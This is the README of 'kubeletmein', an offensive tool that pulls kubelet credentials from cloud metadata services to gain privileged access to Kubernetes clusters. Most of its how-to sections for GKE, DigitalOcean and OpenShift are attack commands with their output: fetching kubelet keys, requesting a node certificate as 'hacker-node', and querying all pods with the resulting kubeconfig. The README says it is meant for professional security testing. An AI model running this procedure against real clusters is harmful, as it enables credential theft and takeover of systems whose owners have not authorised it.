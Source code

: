 # Kubeletmein

This is a simple penetration testing tool which takes advantage of public cloud provider approaches to providing kubelet credentials to nodes in a Kubernetes cluster in order to gain privileged access to the k8s API. This access can then potentially be used to further compromise the applications running in the cluster or, in many cases, access secrets that facilitate complete control of Kubernetes.

## How it works

`kubeletmein` is a simple Go binary that is designed to be run from a pod inside your target cluster. Typically this will be either via exploiting a weakness in a web application running on Kubernetes or, perhaps an internal penetration test where the client has given you exec access into a pod.

It reads kubelet credentials from the cloud provider metadata and configures a kubeconfig file that you can use with `kubectl` to access the API.

There's more info in our blog post at [https://www.4armed.com/blog/hacking-google-kubernetes-engine-part1/](https://www.4armed.com/blog/hacking-google-kubernetes-engine-part1/).

## Supported providers

### GKE

GKE is fully supported and relies on the metadata concealmeant being disabled (the default setting).

## Fixed providers

OpenShift (OCP) was vulnerable in the preview releases of 4.1, but the official 4.1.0 release
has multiple mitigations; the primary one is that the SDN layer [denies userdata access](https://github.com/openshift/origin/pull/22826).

## Other providers

### EKS

I'm working on support for EKS. It's actually a lot easier to exploit this on EKS than GKE.

### Digital Ocean

By default, DO provides creds by metadata and this cannot be disabled.

### AKS

I should probably look at Azure at some point but....Microsoft. ;-)


## Installation

It's a single binary compiled for Linux. Download it with `cURL` or `wget` from the releases page at [https://github.com/4armed/kubeletmein/releases](https://github.com/4armed/kubeletmein/releases).

## How to

### OCP4

On OCP4 kubeletmein is a two stage process. First we write out a bootstrap-kubeconfig from the MCO endpoint. Then we generate a certificate sigining request and use the bootstrap config to submit it to the API for approval.

```
~ $ kubeletmein bootstrap ocp -m https://api-int.<name>.<baseDomain>:22623/config/master
2019-05-10T10:32:51+02:00 [ℹ]  wrote bootstrap-kubeconfig
2019-05-10T10:32:51+02:00 [ℹ]  now generate a new node certificate with: kubeletmein generate -b /tmp/bootstrap-kubeconfig -k /tmp/kubeconfig -n hacker-node -d /tmp/pki
```

Then we download the certificate and configure `kubeconfig`.

```
~ $ kubeletmein generate -b /tmp/bootstrap-kubeconfig -k /tmp/kubeconfig -n hacker-node -d /tmp/pki
2019-05-10T10:33:33+02:00 [ℹ]  using bootstrap-config to request new cert for node: hacker-node
2019-05-10T10:33:33+02:00 [ℹ]  got new cert and wrote kubeconfig
2019-05-10T10:33:33+02:00 [ℹ]  now try: kubectl --kubeconfig /tmp/kubeconfig get pods --all-namespaces
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig /tmp/kubeconfig get pods --all-namespaces
```

### GKE

On GKE kubeletmein is a two stage process. First we write out a bootstrap-kubeconfig using the certificates and key from the `kube-env` instance attribute. Then we generate a certificate sigining request and use the bootstrap config to submit it to the API for approval.

```
~ $ kubeletmein bootstrap gke
2018-11-29T21:21:26Z [ℹ]  fetching kubelet creds from metadata service
2018-11-29T21:21:26Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet cert to: kubelet.crt
2018-11-29T21:21:26Z [ℹ]  writing kubelet key to: kubelet.key
2018-11-29T21:21:26Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  wrote bootstrap-kubeconfig
2018-11-29T21:21:26Z [ℹ]  now generate a new node certificate with: kubeletmein gke generate
```

Then we download the certificate and configure `kubeconfig`.

```
~ $ kubeletmein generate -n gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  using bootstrap-config to request new cert for node: gke-cluster19-default-pool-6c73beb1-wmh3
2018-11-29T21:23:33Z [ℹ]  got new cert and wrote kubeconfig
2018-11-29T21:23:33Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

Now you can use the kubeconfig, as it suggests.

```
kubectl --kubeconfig kubeconfig get pods
```

### EKS

Coming soon.....

### Digital Ocean

```
~ $ kubeletmein bootstrap do
2018-12-12T23:34:19Z [ℹ]  fetching kubelet creds from metadata service
2018-12-12T23:34:19Z [ℹ]  writing ca cert to: ca-certificates.crt
2018-12-12T23:34:19Z [ℹ]  generating bootstrap-kubeconfig file at: bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  wrote bootstrap-kubeconfig
2018-12-12T23:34:19Z [ℹ]  now generate a new node certificate with: kubeletmein do generate
```

Now generate the kubeconfig with a downloaded cert
```
~ $ kubeletmein generate -n whatevs
2018-12-12T23:36:46Z [ℹ]  using bootstrap-config to request new cert for node: whatevs
2018-12-12T23:36:46Z [ℹ]  got new cert and wrote kubeconfig
2018-12-12T23:36:46Z [ℹ]  now try: kubectl --kubeconfig kubeconfig get pods
```

## Contributing

Please submit pull requests on a separate branch. We welcome all improvements. It's not the world's best bit of code.

Please raise issues on GitHub if you find any, including feature requests.

## Disclaimer

This is intended for professional security testing or research. We subscribe to the DBAD philosophy.
